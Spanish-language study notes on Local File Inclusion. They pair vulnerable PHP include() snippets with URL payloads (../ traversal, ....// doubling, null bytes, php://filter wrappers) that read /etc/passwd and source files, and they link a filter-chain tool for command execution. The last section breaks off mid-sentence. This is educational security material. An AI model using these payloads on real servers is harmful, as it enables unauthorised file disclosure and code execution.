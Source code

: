 # Local File Inclusion (LFI)

Tags: #LFI #OWASP #Explotacion 

La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

En el ataque de Path Traversal, el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema.

Por ejemplo, el atacante podría incluir “**../**” en el parámetro de entrada para navegar hacia arriba en la estructura del directorio y acceder a archivos en ubicaciones sensibles del sistema.

Para prevenir los ataques LFI, es importante que los desarrolladores de aplicaciones web validen y filtren adecuadamente la entrada del usuario, limitando el acceso a los recursos del sistema y asegurándose de que los archivos sólo se puedan incluir desde ubicaciones permitidas. Además, las empresas deben implementar medidas de seguridad adecuadas, como el cifrado de archivos y la limitación del acceso de usuarios no autorizados a los recursos del sistema.

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

-   **PHP Filter Chain Generator**: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)


## Metodos de poder hacer un LFI en los diferentes codigos y sanitizaciones.

Con un LFI podemos no solo cargar archivos que agreguemos la ruta de la pagina, si no tambien cambiar y ver otras rutas en la pagina web.
* **/var/www/html** Ruta de default

Un LFI sin sanitizar
```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```
Para este codigo sin sanitizar podemos hacer lo siguiente en la **web** y asi cargariamos un archivo:
* **index.php?filename=/etc/passwd**


Con el codigo sanitizado evitamos lo de arriba.
```php
<?php
	$filename = $_GET['filename'];
	include("/var/www/html/" . $filename); 
?>

	// . = Concatenar
	// ruta = Que busque el archivo siempre en esa ruta
```
Si colocamos lo mismo de  **index.php?filename=/etc/passwd** en la ruta final obtendriamos:
**/var/www/html//etc/passwd** -> Por lo que esa ruta no exites y no nos daria nada. 
Pero podriamos hacer un **Directory Path Traversal** en la **web** de la siguiente manera:
* **index.php?filename=../../../../../etc/passwd** y asi burlar la sanitizacion ya que tendriamos un **/etc/passwd**


Sanitizando de nuevo el codigo evitariamos lo de arriba.
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	include("/var/www/html/" . $filename); 
?>

	// . = Concatenar
	// ruta = Que busque el archivo siempre en esa ruta
	// str_replace = Donde vea ../ lo convierta a nada 
```
Si hacemos de nuevo un Directory Path Traversal de la manera normal obtendriamos lo siguiente:
**/var/www/html/../../../../../etc/passwd** -> /var/www/htmletc/passwd Y esa ruta no existe
Pero podriaos burlar esa sanitizacion en la **web** colocandolo de manera doble.
* **index.php?filename=....//....//....//....//....//etc/passwd** y como resultado final tendriamos **/etc/passwd**


Sanitizando de nuevo el codigo con expresiones regulares evitariamos lo de arriba.
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	
	if(preg_match("/\/etc\/passwd/", $filename) === 1){
		echo "\n[+] No es posible visualizar el contenido de este archivo\n";
	} else {
		include("/var/www/html/" . $filename);
	} 
?>

	// . = Concatenar
	// ruta = Que busque el archivo siempre en esa ruta
	// str_replace = Donde vea ../ lo convierta a nada 
	// preg_match = Lo que haga match que seria /etc/passwd, entraria al bucle y no mostraria el contenido 
```
Para poder burlar este tipo de sanitizacion podemos colocar este tipo de input **/etc/././././passwd**, **/etc///passwd**, 
Pero podriaos burlar esa sanitizacion en la **web** colocandolo mas barras despues del etc o barra y punto.
* **index.php?filename=....//....//....//....//....//etc/////passwd** y obtendriamos como resultado **/etc/passwd**
* **index.php?filename=....//....//....//....//....//etc/./././passwd** y obtendriamos como resultado **/etc/passwd**
Tambien podemos utilizar interrogantes y el sistema nos buscara aun asi el archivo:
* **index.php?filename=....//....//....//....//....//e??/./././pa???d** y obtendriamos como resultado **/etc/passwd**


Sanitizando de nuevo el codigo forzando a que busque un archivo .php en la ruta 
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	
	include("/var/www/html/" . $filename . ".php");
?>

	// . = Concatenar
```
Esto funciona para las versiones de **PHP menor a la 5.3.8** y lo que podemos hacer para evitar esa extencion es agregar un **NULL BYTE** en la **web** de la siguiente manera:
Donde **%00 -> \\0** 
* **index.php?filename=....//....//....//....//....//etc/passwd%00** y obtendriamos como resultado **/etc/passwd**
Cuando exista una sanitizacion por numero de caracteres como los ultimos 6 (passwd) o por los ultimos 4 (.txt). Podemos hacer lo siguiente:
Podriamos agregar un **/.** al final y asi podriamos burlar la sanitizacion. 
* **index.php?filename=....//....//....//....//....//etc/passwd/.** y obtendriamos como resultado **/etc/passwd**
* **index.php?filename=....//....//....//....//....//tmp/test.txt/.** y obtendriamos como resultado el archivo **test.txt**

----

Tambien podemos emplear **Groupers** en la url de la Web:
Este nos ayuda a apuntar a un recurso **(index.php, secret.php, etc...)** y despues mediante una conversion representarlo en base64
* index.php?page=**php://filter/convert.base64-encode/resource=index.php** y obtendriamos como resultado el index.php pero en base64, despues colocamos el resultado en un archivo **data**
```bash
❯ cat data | base64 -d | sponge data                             # Sponge = Colocar el output decodificado en el mismo archivo
```

```bash
❯ echo -n "ihst98htar78htrs8697hstrhyu8tr" | base64 -d; echo     # Si la cadena es pequena, podemos mostrar el contenido en la pantalla
```


Otro **Groupers** que podemos usar en la web es el siguiente:
Este nos ayuda a rotar cada caracter en 13 posiciones
* index.php?page=**php://filter/read=string.rot13/resource=secret.php** y obtendriamos como resultado algo raro que es el resultado pero rotado 13 caracteres y pegamos el resultado en un archivo **data**
```bash
❯ cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]' # tr = Nos ayudara a rotar de nuevo las 13 posiciones, empezando por la letra que nos arroje el output (Siempre cambian) 

	# Empezamos por la letra que nos arroje el output
	# Despues completamos para llegar a la z 
	# Terminamos colocando lo que falta del abcedario
	# Lo volvemos a hacer pero ahora en mayuscula
	# La ultima instruccion es para rotar empezando por la p de 'php'
```


Otro **Groupers** que podemos usar en la web es el siguiente: 
Este nos ayudaria convertir de UTF-8 a UTF-16:
* index.php?page=**php://filter/convert.iconv.utf-8.utf-16/resource=secret.php** y obtendriamos como resultado que nos muestre el resultado por la web ya que no lo esta 'interpretando'.


Otro **Groupers** que podemos usar en la web es el siguiente:
Este nos ayudara a ejecutar comandos
* index.php?page=**php://filter/convert.iconv.utf-8.utf-16/resource=secret.php** y obtendriamos como resultado